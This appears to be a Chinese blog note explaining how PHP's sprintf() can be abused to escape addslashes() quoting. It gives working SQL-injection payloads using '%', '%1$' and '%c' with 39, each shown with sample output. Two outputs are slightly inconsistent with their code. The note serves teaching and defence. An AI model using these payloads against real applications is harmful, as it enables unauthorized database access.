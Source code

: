 ```yaml
---
layout: post
title: sprintf()格式化字符串注入
data: 2019-11-23
categories: Notes
tags: 
 - Injection
description:
excerpt_separator: ""
---
```


# sprintf()函数

和其它语言的格式化字符串函数类似，sprintf()的语法为：

```
sprintf ( string $format [, mixed $... ] ) : string
```

例如：

```php
<?php
    echo sprintf("select * from user where username='%s'\n", "admin");
?>
```

运行结果：

````
select * from user where username=admin
````

# 漏洞原理

在PHP的底层代码中，会对`$format`中`%`符号后的第一个字符做一个switch判断，以实现格式化输入功能。但这个判断仅15个case，换言之在`%`符号之后且超出了判断范围的字符都会被“吃掉”。

这样的话，如果我们上传的Payload被addslashes()处理过，就可以利用这个特性使被转义的字符逃逸。

# 利用方式

## 使用%

直接在危险字符前加入`%`即可。

不过需要主要的是如果当前字符串中`%`符号的数目大于sprintf()函数实际提供的参数，就会引起报错：

```php
<?php
    echo sprintf("select * from user where username='admin%\' or 1=1#' and password='%s'\n" , "pass");
?>
```

运行结果：

```
PHP Warning:  sprintf(): Too few arguments in /home/glyuan/foo.php on line 2
```

## 使用%1$

在占位符中，`%n$s`可以选择特定位置的参数：

```php
<?php
    echo sprintf("select * from user where username='%2\$s' and password='%1\$s'\n", "pass", "admin");
?>
```

运行结果：

```
select * from user where username='admin' and password='pass'
```

所以用`%1$`代替`%`可以规避之前的报错：

```php
<?php
    echo sprintf("select * from user where username='admin%1\$\' or 1=1#' and password='%s'\n" , "pass");
?>
```

运行结果：

```
select * from user where username='admin' Or 1=1#' and password='pass'
```

## 使用%c

`%c`是单个字符的占位符，接受一个整数，并根据ASCII码转化为字符，可以利用这个特性传入单引号等危险字符，以绕过过滤：

```php
<?php
    $username = "admin%1\$c or 1=1#";
	$password = "39";
	$sql = "select * from user where username='$username' and password='%s'\n";
	echo sprintf($sql, $password);
?>
```

运行结果：

```
select * from user where username='admin' or 1=1#' and password='39'
```

